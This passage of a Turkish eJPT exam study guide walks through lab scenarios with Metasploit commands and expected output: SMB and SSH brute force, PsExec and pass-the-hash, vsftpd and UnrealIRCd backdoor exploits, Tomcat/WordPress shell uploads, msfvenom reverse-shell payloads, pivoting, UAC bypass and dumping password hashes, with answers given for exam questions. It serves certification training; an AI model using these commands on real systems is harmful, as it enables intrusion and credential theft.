  <div class="terminal-body">
    <pre><code class="language-bash">sudo nano /etc/proxychains4.conf
# [ProxyList] bölümünün altına:
# socks5  127.0.0.1 1080</code></pre>
  </div>
</div>

**Adım 3: Nmap Taraması**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">proxychains</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">proxychains nmap -sT -Pn -p 22,80,445 10.1.1.12</code></pre>
  </div>
</div>

> [!CAUTION]
> **ZORUNLU parametreler:**
> * **`-sT`** → SOCKS proxy raw socket (SYN) taşıyamaz, tam TCP bağlantısı gerekir
> * **`-Pn`** → SOCKS proxy ICMP (Ping) yönlendiremez; yoksa Nmap hedefi çevrimdışı sanır

</details>

---

### ❓ Soru 11: Meterpreter üzerinden port forwarding yaparak iç ağdaki `10.1.1.12` makinesinin 80 portuna tarayıcınızdan erişiniz.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">meterpreter</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash"># Meterpreter oturumunda:
meterpreter > portfwd add -l 8888 -p 80 -r 10.1.1.12

# Kali'de tarayıcıyı aç:
firefox http://127.0.0.1:8888

# Aktif port forward'ları listele:
meterpreter > portfwd list</code></pre>
  </div>
</div>

**Parametreler:**
* `-l 8888` → Kali'de dinlenecek yerel port
* `-p 80` → İç ağdaki hedefin uzak portu
* `-r 10.1.1.12` → İç ağdaki hedef IP

</details>

---

<div id="senaryo-3"></div>

<div class="scenario-section-header msf">
  <div>
    <span class="custom-badge badge-msf">Brute Force</span>
    <span class="custom-badge badge-msf">Senaryo 3</span>
  </div>
  <h3>🟠 Brute Force ile Kimlik Tespiti & PsExec</h3>
  <p class="scenario-metadata">**Durum:** `10.10.10.8` IP adresli Windows hedefte port **445 (SMB)** açık ancak MS17-010 zafiyeti **yamalı**. Doğrudan exploit yok.</p>
</div>


### ❓ Soru 12: EternalBlue işe yaramadığına göre, SMB üzerinden Administrator hesabının şifresini kaba kuvvet (brute force) ile bulunuz.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.10.10.8
msf6 auxiliary(scanner/smb/smb_login) > set SMBUser Administrator
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
msf6 auxiliary(scanner/smb/smb_login) > run</code></pre>
  </div>
</div>

**Beklenen Çıktı:**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">output</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-text">[+] 10.10.10.8:445 - Success: '.\Administrator:Password123!'</code></pre>
  </div>
</div>

**Cevap:** `Password123!`

</details>

---

### ❓ Soru 13: Bulduğunuz kimlik bilgilerini (`Administrator:Password123!`) kullanarak PsExec ile `10.10.10.8` hedefine sızınız.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.10.10.8
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator
msf6 exploit(windows/smb/psexec) > set SMBPass Password123!
msf6 exploit(windows/smb/psexec) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set LHOST tun0
msf6 exploit(windows/smb/psexec) > exploit</code></pre>
  </div>
</div>

**Doğrulama:**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">meterpreter</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">meterpreter > getuid
# NT AUTHORITY\SYSTEM</code></pre>
  </div>
</div>

</details>

---

### ❓ Soru 14: SSH servisi (port 22) açık olan bir Linux hedefin root şifresini brute force ile bulunuz ve oturum elde ediniz.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 10.10.10.6
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /usr/share/wordlists/metasploit/namelist.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login) > run</code></pre>
  </div>
</div>

**Beklenen Çıktı:**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">output</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-text">[+] 10.10.10.6:22 - Success: 'root:toor'
[*] Command shell session 1 opened</code></pre>
  </div>
</div>

**ÖNEMLİ:** `ssh_login` başarılı olduğunda **otomatik olarak shell oturumu açar!** Bunu Meterpreter'a yükseltebilirsiniz:
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">msf6 > sessions -u 1</code></pre>
  </div>
</div>

</details>

---

<div id="senaryo-4"></div>

<div class="scenario-section-header lin">
  <div>
    <span class="custom-badge badge-lin">Linux</span>
    <span class="custom-badge badge-msf">Senaryo 4</span>
  </div>
  <h3>🔴 Linux Servis Exploitation & Flag Toplama</h3>
  <p class="scenario-metadata">**Durum:** `10.10.10.6` IP adresli Linux hedefte Nmap taraması aşağıdaki sonuçları verdi:
```text
21/tcp  open  ftp       vsftpd 2.3.4
22/tcp  open  ssh       OpenSSH 7.2p2
80/tcp  open  http      Apache httpd 2.4.18
6667/tcp open  irc       UnrealIRCd
```</p>
</div>


### ❓ Soru 15: Port 21'deki vsftpd 2.3.4 servisinin bilinen bir backdoor zafiyeti vardır. Bu zafiyeti kullanarak hedefi ele geçiriniz.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(...) > set RHOSTS 10.10.10.6
msf6 exploit(...) > exploit</code></pre>
  </div>
</div>

**Başarılı Çıktı:**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">output</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-text">[*] Command shell session 1 opened</code></pre>
  </div>
</div>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">terminal</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash"># Kullanıcıyı doğrula:
id
# uid=0(root) gid=0(root)</code></pre>
  </div>
</div>

**Not:** Bu exploit payload ayarı gerektirmez, backdoor port 6200'de otomatik shell açar.

</details>

---

### ❓ Soru 16: Port 6667'deki UnrealIRCd servisini sömürerek hedef sisteme sızınız.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">msf6 > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf6 exploit(...) > set RHOSTS 10.10.10.6
msf6 exploit(...) > set RPORT 6667
msf6 exploit(...) > set PAYLOAD cmd/unix/reverse
msf6 exploit(...) > set LHOST tun0
msf6 exploit(...) > set LPORT 4444
msf6 exploit(...) > exploit</code></pre>
  </div>
</div>

**Başarılı Çıktı:**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">output</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-text">[*] Command shell session 1 opened</code></pre>
  </div>
</div>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">terminal</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">whoami
# root</code></pre>
  </div>
</div>

</details>

---

### ❓ Soru 17: Hedef Linux makinedeki tüm kullanıcıların parola hash'lerini elde ediniz. `root` kullanıcısının hash'i nedir?

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

**Yöntem 1: Metasploit Post Modülü ile**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">meterpreter > background
msf6 > use post/linux/gather/hashdump
msf6 post(linux/gather/hashdump) > set SESSION 1
msf6 post(linux/gather/hashdump) > run</code></pre>
  </div>
</div>

**Yöntem 2: Düz Shell'den Manuel**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">bash</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">cat /etc/shadow</code></pre>
  </div>
</div>

**Örnek Çıktı:**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">output</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-text">root:$6$xyz123...$abcdef...:19234:0:99999:7:::</code></pre>
  </div>
</div>

**Cevap:** `$6$` ile başlayan tüm hash değeri (SHA-512 formatı)

</details>

---

### ❓ Soru 18: `/root/flag.txt` dosyasının içeriği nedir?

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">meterpreter</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash"># Meterpreter'da:
meterpreter > cat /root/flag.txt

# veya düz shell'de:
cat /root/flag.txt</code></pre>
  </div>
</div>

**Cevap:** Dosyada ne yazıyorsa onu sınav portalına girin.

</details>

---

### ❓ Soru 19: Elde ettiğiniz düz shell (command shell) oturumunu Meterpreter'a nasıl yükseltirsiniz?

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash"># Yöntem 1: Kısa yol
msf6 > sessions -u 1

# Yöntem 2: Manuel modül
msf6 > use post/multi/manage/shell_to_meterpreter
msf6 post(...) > set SESSION 1
msf6 post(...) > set LHOST tun0
msf6 post(...) > run</code></pre>
  </div>
</div>

**Sonuç:** Yeni bir Meterpreter session açılır (Örn: Session 2).

> [!TIP]
> **Topluluk Notu:** Birçok aday `sessions -u` komutunu bilmediği için sınavda düz shell'de takılıp kalmış. Bu komut çok önemli!

</details>

---

<div id="senaryo-5"></div>

<div class="scenario-section-header web">
  <div>
    <span class="custom-badge badge-web">Web App</span>
    <span class="custom-badge badge-msf">Senaryo 5</span>
  </div>
  <h3>🟣 Web App Exploitation — Tomcat & WordPress</h3>
  <p class="scenario-metadata">**Durum:** `10.10.10.6` hedefinde port **8080**'de Apache Tomcat, port **80**'de WordPress çalışıyor.</p>
</div>


### ❓ Soru 20: Tomcat Manager panelinin varsayılan giriş bilgilerini kırınız ve WAR dosyası yükleyerek shell alınız.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

**Aşama 1: Şifre Kır**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">msf6 > use auxiliary/scanner/http/tomcat_mgr_login
msf6 auxiliary(...) > set RHOSTS 10.10.10.6
msf6 auxiliary(...) > set RPORT 8080
msf6 auxiliary(...) > run

# [+] 10.10.10.6:8080 - Success: 'tomcat:tomcat'</code></pre>
  </div>
</div>

**Aşama 2: WAR Upload ile Sız**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">msf6 > use exploit/multi/http/tomcat_mgr_upload
msf6 exploit(...) > set HttpUser tomcat
msf6 exploit(...) > set HttpPass tomcat
msf6 exploit(...) > set RHOSTS 10.10.10.6
msf6 exploit(...) > set RPORT 8080
msf6 exploit(...) > set PAYLOAD java/meterpreter/reverse_tcp
msf6 exploit(...) > set LHOST tun0
msf6 exploit(...) > set LPORT 4444
msf6 exploit(...) > exploit</code></pre>
  </div>
</div>

**Alternatif şifre bulma:** FTP anonymous/SMB paylaşımı/LFI ile `tomcat-users.xml` dosyasını okuyun.

</details>

---

### ❓ Soru 21: WordPress admin panelinin şifresini bulup, Metasploit ile shell elde ediniz.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

**Aşama 1: Şifre Bul**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">wpscan</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash"># Kali terminalden WPScan ile:
wpscan --url http://10.10.10.6 --enumerate u
wpscan --url http://10.10.10.6 -U admin -P /usr/share/wordlists/fasttrack.txt</code></pre>
  </div>
</div>

**Aşama 2: Metasploit ile Sız**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">msf6 > use exploit/unix/webapp/wp_admin_shell_upload
msf6 exploit(...) > set RHOSTS 10.10.10.6
msf6 exploit(...) > set RPORT 80
msf6 exploit(...) > set USERNAME admin
msf6 exploit(...) > set PASSWORD BulunanŞifre
msf6 exploit(...) > set PAYLOAD php/meterpreter/reverse_tcp
msf6 exploit(...) > set LHOST tun0
msf6 exploit(...) > exploit</code></pre>
  </div>
</div>

> [!TIP]
> **Password Reuse:** `wp-config.php` dosyasındaki veritabanı şifresini admin panelinde de deneyin — adminler genellikle aynı şifreyi kullanır.

</details>

---

<div id="senaryo-6"></div>

<div class="scenario-section-header win">
  <div>
    <span class="custom-badge badge-win">Windows</span>
    <span class="custom-badge badge-msf">Senaryo 6</span>
  </div>
  <h3>🟤 Pass-the-Hash ile Yatay Hareket</h3>
  <p class="scenario-metadata">**Durum:** İlk Windows makineden `hashdump` ile Administrator'ın NTLM hash'ini elde ettiniz. Ağda ikinci bir Windows makine (`10.10.10.8`) tespit ettiniz.</p>
</div>


### ❓ Soru 22: Elde ettiğiniz NTLM hash'i **kırmadan**, doğrudan kullanarak ikinci makineye sızınız.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.10.10.8
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator
msf6 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b
msf6 exploit(windows/smb/psexec) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set LHOST tun0
msf6 exploit(windows/smb/psexec) > set LPORT 4445
msf6 exploit(windows/smb/psexec) > exploit</code></pre>
  </div>
</div>

**Neden çalışıyor:** Windows şifreleri doğrularken düz metin yerine NTLM hash kullanır. `SMBPass` alanına `LM_Hash:NTLM_Hash` formatında hash yazılabilir.

</details>

---

<div id="senaryo-7"></div>

<div class="scenario-section-header msf">
  <div>
    <span class="custom-badge badge-msf">Payloads</span>
    <span class="custom-badge badge-msf">Senaryo 7</span>
  </div>
  <h3>⚫ Msfvenom Payload & Multi Handler</h3>
  <p class="scenario-metadata">**Durum:** Hedef sisteme dosya yükleme imkânınız var (FTP, web upload vb.) ancak doğrudan çalışan bir exploit bulamadınız.</p>
</div>


### ❓ Soru 23: Hedef Windows makine için msfvenom ile reverse shell payload'ı üretip, Metasploit'te dinleyici kurunuz.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

**Adım 1: Payload Üret (Kali Terminali)**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">meterpreter</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o shell.exe</code></pre>
  </div>
</div>

**Adım 2: Multi/Handler Dinleyici Kur (msfconsole)**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit -j</code></pre>
  </div>
</div>

**Adım 3:** Payload'ı hedefe yükleyin (FTP, upload formu vb.) ve çalıştırın. Bağlantı yakalanır.

> [!CAUTION]
> `msfvenom` ve `multi/handler` ayarları (payload yolu, LHOST, LPORT) **BİREBİR AYNI** olmalıdır! Farklı olursa bağlantı yakalanamaz.

</details>

---

### ❓ Soru 24: Farklı hedef platformları için doğru msfvenom formatını seçiniz.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

| Hedef | Komut |
| :--- | :--- |
| **Windows** | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o shell.exe` |
| **Linux** | `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf` |
| **PHP (Web)** | `msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f raw -o shell.php` |
| **Java WAR** | `msfvenom -p java/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f war -o shell.war` |

</details>

---

<div id="senaryo-8"></div>

<div class="scenario-section-header piv">
  <div>
    <span class="custom-badge badge-piv">Full Chain</span>
    <span class="custom-badge badge-msf">Senaryo 8</span>
  </div>
  <h3>🔶 Tam Zincir — Dış Ağdan İç Ağa Full Chain</h3>
  <p class="scenario-metadata">**Durum:** Saldırgan makineniz (`10.10.14.2`) ile aynı ağda bir Windows makine (`10.10.10.5`), bu makinenin ikinci ağ kartı üzerinden erişilen bir iç ağda (`10.1.1.0/24`) bir Linux makine var. Tüm zinciri tamamlayınız.

> [!IMPORTANT]
> **Topluluk Notu:** eJPT sınavında en çok puan getiren ve en çok takılınan senaryo budur. Pivotlama yapamayan sınavı geçemez.</p>
</div>




### ❓ Soru 25: Dış ağdaki Windows makineyi ele geçiriniz. Administrator'ın NTLM hash'i nedir?

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash"># 1. Zafiyet kontrolü
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(...) > set RHOSTS 10.10.10.5
msf6 auxiliary(...) > run
# [+] Host is likely VULNERABLE

# 2. Exploit
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(...) > set RHOSTS 10.10.10.5
msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(...) > set LHOST tun0
msf6 exploit(...) > exploit

# 3. Hash dump
meterpreter > hashdump
# Administrator:500:aad3b435...:e02bc503...:::</code></pre>
  </div>
</div>

</details>

---

### ❓ Soru 26: Windows makinenin ikinci ağ kartını tespit edip, iç ağa pivotlama kurunuz. İç ağda canlı hostları ve açık portları tarayınız.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash"># 1. İkinci ağ kartını bul
meterpreter > ipconfig
# Interface 2: 10.1.1.5/24

# 2. Rota ekle
meterpreter > background
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > run
# [+] Route added to 10.1.1.0/24

# 3. Rotayı doğrula
msf6 > route print

# 4. İç ağı tara
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(...) > set RHOSTS 10.1.1.0/24
msf6 auxiliary(...) > set PORTS 21,22,80,445,3389,8080
msf6 auxiliary(...) > set THREADS 50
msf6 auxiliary(...) > run</code></pre>
  </div>
</div>

</details>

---

### ❓ Soru 27: İç ağdaki Linux makineye (`10.1.1.12`, port 22 açık) SSH brute force yapıp sızınız ve `/root/flag.txt` dosyasının içeriğini elde ediniz.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash"># 1. SSH Brute Force (Rota sayesinde iç ağa otomatik yönlendirilir)
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(...) > set RHOSTS 10.1.1.12
msf6 auxiliary(...) > set USER_FILE /usr/share/wordlists/metasploit/namelist.txt
msf6 auxiliary(...) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
msf6 auxiliary(...) > run
# [+] 10.1.1.12:22 - Success: 'root:toor'
# [*] Command shell session 2 opened

# 2. Shell'i Meterpreter'a yükselt
msf6 > sessions -u 2
# [*] Meterpreter session 3 opened

# 3. Flag'i oku
msf6 > sessions -i 3
meterpreter > cat /root/flag.txt</code></pre>
  </div>
</div>

</details>

---

### ❓ Soru 28: Normal kullanıcı (`student`) yetkisiyle Meterpreter oturumu elde ettiniz. SYSTEM yetkisine yükseliniz.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash"># Adım 1: Otomatik deneme
meterpreter > getsystem
# Başarılı ise → bitti.

# Adım 2: getsystem başarısız → UAC Bypass
meterpreter > background
msf6 > use exploit/windows/local/bypassuac_fodhelper
msf6 exploit(...) > set SESSION 1
msf6 exploit(...) > set LHOST tun0
msf6 exploit(...) > set LPORT 4445
msf6 exploit(...) > exploit
# Yeni session açılır → o session'a geç → getsystem dene

# Adım 3: Hâlâ olmadı → Local Exploit Suggester
meterpreter > background
msf6 > use post/multi/recon/local_exploit_suggester
msf6 post(...) > set SESSION 1
msf6 post(...) > run
# [+] exploit/windows/local/ms16_032... : The target appears to be vulnerable.
# Önerilen exploit'i kullan</code></pre>
  </div>
</div>

</details>

---

## 📋 Hızlı Referans: Sınavda En Çok Kullanılan Komutlar

| Kategori | Komut | Ne Zaman |
| :--- | :--- | :--- |
| **Zafiyet Tespiti** | `use auxiliary/scanner/smb/smb_ms17_010` | SMB açık Windows gördüğünde |
| **EternalBlue** | `use exploit/windows/smb/ms17_010_eternalblue` | MS17-010 zafiyeti doğrulandığında |
| **PsExec** | `use exploit/windows/smb/psexec` | Şifre veya hash elde ettiğinde |
| **Hash Dump** | `hashdump` | SYSTEM olduktan sonra |
| **Kiwi** | `load kiwi` → `creds_all` | Plaintext şifre lazımsa |
| **Flag Ara** | `search -f *flag*` | Her makineye girdikten sonra |
| **Dosya İndir** | `download c:\\path\\file` | Flag/config dosyası bulduktan sonra |
| **İkinci Ağ** | `ipconfig` / `ifconfig` | Her makineye girdikten sonra |
| **Pivotlama** | `use post/multi/manage/autoroute` | İkinci ağ kartı tespit ettiğinde |
| **İç Ağ Tarama** | `use auxiliary/scanner/portscan/tcp` | Rota ekledikten sonra |
| **Proxy** | `use auxiliary/server/socks_proxy` | Nmap/tarayıcı iç ağa lazımsa |
| **Proxychains** | `proxychains nmap -sT -Pn ...` | SOCKS proxy kurulduktan sonra |
| **Port Forward** | `portfwd add -l PORT -p PORT -r IP` | Spesifik bir servise erişim lazımsa |
| **Brute Force** | `use auxiliary/scanner/ssh/ssh_login` | Exploit bulamadığında |
| **Shell Yükselt** | `sessions -u SESSION_ID` | Düz shell'i Meterpreter yapmak için |
| **Yetki Yükselt** | `getsystem` | SYSTEM olmak için |
| **Msfvenom** | `msfvenom -p ... LHOST= LPORT= -f ... -o ...` | Payload üretmek için |
| **Dinleyici** | `use exploit/multi/handler` | Msfvenom payload'ı yakalamak için |

---

> [!TIP]
> **Sınav Günü Taktikleri (Topluluk Tavsiyesi):**
> 1. **Soruları önce okuyun** — 35 sorunun hepsini okuyarak hangi makinelerden ne bekleneceğini anlayın
> 2. **Her bulduğunuz veriyi not alın** — IP'ler, hash'ler, şifreler, flag'ler
> 3. **Dinamik sorulara hemen cevap verin** — Bazı cevaplar lab instance'ına özgüdür, makine resetlenirse değişebilir
> 4. **Takılırsanız enumeration'a geri dönün** — Kaçırdığınız bir port veya servis olabilir
> 5. **Pivotlama pratiği yapın** — Sınavı geçen herkes "autoroute + proxychains hayat kurtarıcı" diyor
